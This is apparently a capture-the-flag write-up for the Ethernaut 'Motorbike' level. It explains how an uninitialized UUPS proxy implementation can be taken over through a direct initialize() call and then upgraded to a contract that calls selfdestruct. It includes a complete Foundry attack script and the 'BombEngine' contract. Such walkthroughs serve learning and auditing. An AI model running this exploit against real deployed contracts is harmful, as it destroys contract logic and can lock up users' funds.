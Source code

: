 We have to somehow delete the code of `engine` instance using `selfdestruct()` to pass the game. Notice that `r_slot` in assembly represents the storage slot of `r`. 

## Before Dencun Update

We can see that the implementation contract will be *initialized* in the proxy's constructor. However, it changes the storage state of the proxy (`motorbike`) instead of that of the implementation. If we take a closer look at the implmentation logic, we can see that the implementation itself can call the `initialize()`, which means that whoever calls the `initialize()` directly through implementation instance will become the `upgrader`. After becoming `upgrader`, we will call `upgradeToAndCall(address newImplementation, bytes memory data)` with our malicious new implementation, which has a `selfdestruct()` in it. If the old implementation delegate calls it, it will be self destroyed.

`IEngine.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IEngine {
    function initialize() external;
    function upgradeToAndCall(address newImplementation, bytes calldata data) external payable;
}
```

`BombEngine.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BombEngine {
    function kill() public {
        selfdestruct(payable(address(0)));
    }
}
```

This is the contract for the new implementation.

`Motorbike.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {IEngine} from "../src/IEngine.sol";
import {BombEngine} from "../src/BombEngine.sol";

contract MotorbikeScript is Script {
    address constant MOTORBIKE_ADDRESS = 0xXXXXXXXXXX;
    bytes32 constant IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    address engineAddress = address(uint160(uint256(vm.load(MOTORBIKE_ADDRESS, IMPLEMENTATION_SLOT))));
    IEngine engine = IEngine(engineAddress);
    BombEngine bombEngine;

    function run() external {
        vm.startBroadcast();
        bombEngine = new BombEngine();
        engine.initialize();
        engine.upgradeToAndCall(address(bombEngine), abi.encodeWithSignature("kill()"));
        vm.stopBroadcast();
    }
}
```